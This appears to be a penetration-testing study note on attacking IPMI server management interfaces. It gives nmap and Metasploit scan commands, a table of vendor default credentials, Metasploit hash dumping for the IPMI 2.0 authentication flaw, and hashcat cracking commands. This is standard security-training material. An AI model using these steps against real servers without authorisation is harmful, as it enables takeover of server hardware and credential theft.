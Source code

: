 # IPMI

#### **What is IPMI?**

* IPMI is a hardware-based management system used for monitoring and remote management of servers, even if they are powered off or unresponsive.
* It works **independently** from the OS, BIOS, and CPU.
* Commonly found in **Cisco, Dell, HP, Supermicro**, and other enterprise servers.

#### **🔹 How IPMI Works?**

IPMI is used for:

1️⃣ **Before OS boot** – Modify BIOS settings.

2️⃣ **When the system is powered off** – Remote control & monitoring.

3️⃣ **After system failure** – Debugging & recovery.

It monitors **temperature, voltage, fan status, power supply**, and allows remote upgrades.

#### **🔹 Scanning for IPMI Services**

#### **Nmap Scan**

IPMI uses **UDP port 623**. To check if it is open:

```bash
sudo nmap -sU --script ipmi-version -p 623 <target-IP>
```

Example Output:

```
PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version: IPMI-2.0
|   UserAuth: auth_user, non_null_user
|   PassAuth: password, md5, null
```

#### **📌 Metasploit Scan**

Metasploit has an **IPMI version scanner**:

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts <target-IP>
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

#### **🔹 Default Credentials in IPMI**

Many servers have **default credentials** that are rarely changed:

| **Product**    | **Username**    | **Password**    |
| -------------- | --------------- | --------------- |
| **Dell iDRAC** | `root`          | `calvin`        |
| **HP iLO**     | `Administrator` | Random (8-char) |
| **Supermicro** | `ADMIN`         | `ADMIN`         |

Try **default passwords** first. If they work, you have full control!

#### **🔹 Exploiting IPMI Hash Disclosure**

IPMI 2.0 has a **flaw** where it sends password **hashes** before authentication!

#### **📌 Dumping Hashes with Metasploit**

```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts <target-IP>
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```

Example Output:

```
[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d48....
[+] 10.129.42.195:623 - Password cracked: ADMIN
```

#### **📌 Cracking IPMI Hashes with Hashcat**

```bash
hashcat -m 7300 ipmi_hash.txt rockyou.txt
```

If HP iLO uses a **factory default password**, try:

```bash
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```

This tests **all uppercase letters & numbers** (HP’s default format).

#### **🔹 Why is IPMI Dangerous?**

* If an attacker gains access to **IPMI credentials**, they can: ✅ **Reboot or power off** servers remotely. ✅ **Modify BIOS settings** and boot custom OS images. ✅ **Install malware or persistent backdoors**. ✅ **Perform remote code execution** on the server.

***

<figure><img src="../../.gitbook/assets/Screenshot 2025-03-20 002856.png" alt=""><figcaption></figcaption></figure>

then broken hash

<figure><img src="../../.gitbook/assets/Screenshot 2025-03-20 002946.png" alt=""><figcaption></figcaption></figure>
